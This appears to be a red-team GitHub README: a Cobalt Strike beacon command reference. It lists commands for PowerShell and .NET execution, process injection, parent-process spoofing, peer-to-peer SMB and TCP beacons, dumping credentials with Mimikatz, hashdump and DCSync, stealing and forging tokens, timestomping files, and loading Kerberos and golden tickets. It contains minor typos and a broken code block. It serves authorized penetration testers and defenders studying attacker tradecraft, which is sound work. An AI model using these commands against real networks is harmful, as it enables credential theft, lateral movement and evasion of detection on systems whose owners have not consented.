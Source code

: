 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```css
#### Credentials and Hashes
```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```css
dcsync [domain] [DOMAIN\user]
```

#### File Download
```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

#### File Upload
```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

#### Token Stealing
```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

#### Kerberos Tickets
```css
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

